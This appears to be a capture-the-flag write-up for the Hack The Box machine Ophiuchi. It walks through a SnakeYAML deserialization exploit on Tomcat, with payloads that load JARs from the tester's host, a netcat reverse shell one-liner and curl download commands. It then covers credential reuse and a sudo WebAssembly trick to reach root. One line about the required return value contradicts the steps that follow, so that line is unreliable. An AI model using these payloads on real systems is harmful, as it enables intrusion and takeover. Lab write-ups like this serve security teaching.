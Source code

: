 # Ophiuchi

This is the write-up for the box Ophiuchi that got retired at the 3rd July 2021.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.227    ophiuchi.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/ophiuchi.nmap 10.10.10.227
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 8080)

The webpage shows one input field with the title _"Online YAML Parser"_:

![Online YAML Parser](ophiuchiweb-1.png)

When sending any data to the parser, it says that the feature has been temporarily on hold because of security issues.

After sending different special characters to parse, the _quote symbol (")_ results in an error message:
```
org.yaml.snakeyaml.scanner.ScannerImpl.scanFlowScalarSpaces
(...)
```

It uses the Java module [SnakeYAML](https://github.com/snakeyaml/snakeyaml) for processing YAML data.
This module has a **deserialization vulnerability** described in this [blog article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858).

Testing the payload:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5/"]
  ]]
]
```

It works and the listener on our port 80 receives a request and [yaml-payload](https://github.com/artsploit/yaml-payload) can now be used for command execution.

We will create two JAR payloads, from which one will upload a reverse shell file and another one to execute it.

Creating reverse shell file _shell.sh_:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9001 >/tmp/f
```

Modifying payload on line 12 to download reverse shell file:
```
Runtime.getRuntime().exec("curl 10.10.14.5/shell.sh -o /tmp/shell.sh");
```

Compiling the payload:
```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```
```
cp yaml-payload.jar upload-shell.jar
```

Modifying payload on line 12 to execute reverse shell file:
```
Runtime.getRuntime().exec("bash /tmp/shell.sh");
```

Compiling the payload:
```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```
```
cp yaml-payload.jar exec-shell.jar
```

Requesting the JAR file _upload-shell.jar_ for uploading:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5/upload-shell.jar"]
  ]]
]
```

Requesting the JAR file _exec-shell.jar_ for execution:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5/exec-shell.jar"]
  ]]
]
```

It will execute _shell.sh_ and the listener on my IP and port 9001 starts a reverse shell as the user _tomcat_.

## Privilege Escalation

The credentials for the **Tomcat manager** are in _/opt/tomcat/conf/tomcat-users.xml_:
```
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

There is another user on the box _admin_ with a home directory and this password was reused for this user:
```
ssh admin@10.10.10.227
```

### Privilege Escalation to root

When checking the sudo permissions of _admin_ with `sudo -l`, it shows that the user can run a **Go script** as root:
```
User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

This script uses the WebAssembly runtime [Wasmer Go](https://github.com/wasmerio/wasmer-go) and reads the contents of _main.wasm_.
It calls _info_ and if it returns 1, it will run _deploy.sh_, which has no contents.

The goal is to get _main.wasm_ to return anything other than 1 to execute our own bash file.
It is a binary file, but the [WebAssembly Binary Toolkit](https://github.com/WebAssembly/wabt) can be used to decrypt and analyze it.

Using `wasm2wat` to translate the binary to text format:
```
wasm2wat main.wasm > main.wat
```
```
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

Changing value on line 4 from 0 to 1:
```
(func $info (type 0) (result i32)
  i32.const 1)
(...)
```

Using `wat2wasm` to translate text to binary format to create a new _main.wasm_:
```
wat2wasm main.wat
```

Downloading _shell.sh_ and renaming it to _deploy.sh_:
```
wget 10.10.14.5/shell.sh

mv shell.sh deploy.sh
```

Executing the Go script with sudo permissions:
```
sudo /usr/bin/go run /opt/wasm-functions/index.go
```

After executing the Go script, it will run our _deploy.sh_ and the listener on my IP and port starts a reverse shell as root!
